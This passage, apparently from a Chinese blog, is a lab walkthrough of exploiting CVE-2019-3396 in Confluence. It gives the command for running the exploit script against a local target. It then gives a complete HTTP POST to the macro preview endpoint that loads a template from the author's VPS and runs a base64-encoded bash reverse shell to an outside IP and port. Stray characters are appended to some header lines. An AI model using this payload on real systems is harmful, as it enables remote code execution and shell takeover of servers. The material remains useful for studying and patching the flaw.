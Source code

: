 


![](https://img-blog.csdnimg.cn/20210131225442473.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20210131225648622.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



或者直接用脚本命令执行，修改脚本的pyftp为我们自己搭建的vm文件即可，然后执行以下命令



```
python2 cve-2019-3396.py http://192.168.10.129:8090 "ifconfig"
```




![](https://img-blog.csdnimg.cn/2021013123174542.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



![](https://img-blog.csdnimg.cn/20210131231716785.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### 反弹shell



将执行命令的语句进行编码，传送门：[java.lang.Runtime.exec() Payload Workarounds - @Jackson\_T](http://www.jackson-t.ca/runtime-exec-payloads.html "java.lang.Runtime.exec() Payload Workarounds - @Jackson_T")



![](https://img-blog.csdnimg.cn/20210131230702281.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



```
POST /rest/tinymce/1/macro/preview HTTP/1.1      
Host: 192.168.10.129:8090      
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0      
Accept: text/plain, */*; q=0.01      
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3      
Accept-Encoding: gzip, deflate, br      
Content-Type: application/json; charset=utf-8      
X-Requested-With: XMLHttpRequest      
Referer: http://192.168.10.129:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&      1
Content-Length: 292      1
X-Forwarded-For: 127.0.0.2      1
Connection: keep-alive       1
{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_template":"ftp://VPS的ip:9999/r.vm","command":"bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC80Ny4xMDguMTQyLjI3LzQ0NQgMD4mMQ==}|{base64,-d}|{bash,-i}"},"body":""}}
```

